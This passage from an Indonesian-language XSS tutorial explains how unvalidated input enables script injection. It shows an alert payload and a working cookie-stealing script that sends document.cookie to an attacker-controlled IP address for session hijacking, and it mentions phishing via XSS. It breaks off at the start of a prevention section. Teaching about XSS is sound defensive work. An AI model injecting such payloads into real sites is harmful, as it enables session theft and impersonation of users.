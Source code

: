 Tidak terdapat **Validation**, **Sanitazion** atau **Whitelist strategy**. 

Jika user awam yang memberikan data normalnya seperti ini :

http://www.gun.com/test.php?param= nama Maudy Ayunda.

Tapi **attacker** akan memberikan **input malicious script** yang lain misal :

http://www.gun.com/test.php?param=**<script>alert(/xss/)</script>**

Input yang dikirimkan pada kasus di atas adalah **malicious script** sederhana, realitanya lebih kompleks dan menyeramkan dari **script** di atas.

#### Session Hijacking

**Malicious Script** memiliki akses penuh terhadap seluruh **objects** dalam **browser environment**. Hal yang dapat terjadi selanjutnya adalah **session hijacking**. **Cookies** tempat menyimpan **session** bisa diambil, **attacker** dapat menyamar, mencuri data dan bertindak seolah-olah seperti pengguna (pemilik **session**). 

**Cookies** yang dicuri datanya akan dikirimkan menuju **remote server** milik **attacker** untuk disimpan.

<img src="assets/xss2.png" style="zoom:100%;" />

Di bawah ini adalah contoh **malicious script** yang dapat digunakan untuk membuat **object** **image** dalam web kemudian **attribute src** yang dimiliki **element** tersebut di arahkan menuju **remote server** milik **attacker**, data yang dikirimkan adalah **cookies**.

```javascript
<script>new Image().src="http://192.168.129.11/mimiperi.php?output="+document.cookie;</script>
```

**Malicious Script** di atas dapat diinjeksikan dimana saja, **arbitrary attack** dapat dilakukan misal pada kolom komentar dalam forum, **ecommerce** yang akhirnya menimbulkan ratusan ribu atau pengguna lainnya terpancing untuk melakukan klik **HTML element** di atas. Sekali lagi **Persistent XSS Attack is killer**.

#### Phising

Ini hanyalah salah satu contoh dampak yang dapat ditimbulkan dari serangan **XSS Attack** yang kombinasinya dan kerumitannya bisa variatif, misal **XSS Attack** agar bisa melakukan serangan **phising**. Logikanya sama seperti di atas namun mengarahkan user ke alamat yang desain websitenya misal sama persis seperti **facebook**.

#### XSS Cheatsheet

Solusinya kita dapat mempelajari **XSS Filter Evasion Cheatsheet** yang disediakan **OWASP**, melakukan manajemen **validation**, **Sanitation** dan **Whitelist Strategy** : 

https://owasp.org/www-community/xss-filter-evasion-cheatsheet

# Prevention & Mitigation

Pemeliharaan keamanan komputer itu sangat mahal sekali.

Solusi garis besarnya adalah :

